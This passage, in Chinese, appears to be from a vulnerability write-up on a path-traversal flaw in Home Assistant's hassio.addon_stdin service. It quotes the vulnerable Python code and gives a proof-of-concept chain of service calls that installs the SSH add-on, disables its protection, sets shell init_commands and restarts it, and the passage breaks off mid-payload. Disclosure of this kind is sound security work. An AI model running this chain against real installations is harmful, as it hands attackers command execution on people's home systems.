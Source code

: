 ```plain
    # The exceptions are logged properly in hassio.send_command
    with suppress(HassioAPIError):
        await hassio.send_command(               # [2]
            api_endpoint.command.format(addon=addon, slug=slug),
            payload=payload,
            timeout=api_endpoint.timeout,
        )
```

能够调用此服务的攻击者将能够控制 service 变量，包括其 data 属性，因此也将控制 addon 和 payload 键/值。

在调用 hassio.addon\_stdin 服务时，service.service 的值将是 hassio.addon\_stdin，并且从 MAP\_SERVICE\_API(\[1\]) 检索的 api\_endpoint.command 的值将是/addons/{addon}/stdin。当调用 send\_command(\[2\]) 时，攻击者将能够控制 addon 格式字符串参数，因此可以改变 send\_command(code) 函数中传递的 URL 值。

```plain
async def send_command(
    self,
    command,
    method="post",
    payload=None,
    timeout=10,
    return_text=False,
    *,
    source="core.handler",
):
    """Send API command to Hass.io.

    This method is a coroutine.
    """
    try:
        request = await self.websession.request(
            method,
            f"http://{self._ip}{command}",
            json=payload,
            headers={
                aiohttp.hdrs.AUTHORIZATION: (
                    f"Bearer {os.environ.get('SUPERVISOR_TOKEN', '')}"
                ),
                X_HASS_SOURCE: source,
            },
            timeout=aiohttp.ClientTimeout(total=timeout),
        )
        ...
```

在这段代码中，`send_command`函数向 Supervisor API 发送一个经过认证的 application/json POST 请求。这使得攻击者可以操纵请求的路径和正文。

### Poc

```plain
data: {"addon": "../store/addons/a0d7b954_ssh/install?", "input": {}}
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/security?", "input": {"protected":false}}
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/options?", "input": {"options":{"init_commands": ["touch /tmp/pwned-ha", "ls /tmp"], "packages": [], "share_sessions": false, "zsh": true, "ssh": {"
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/restart?", "input": {}}
```
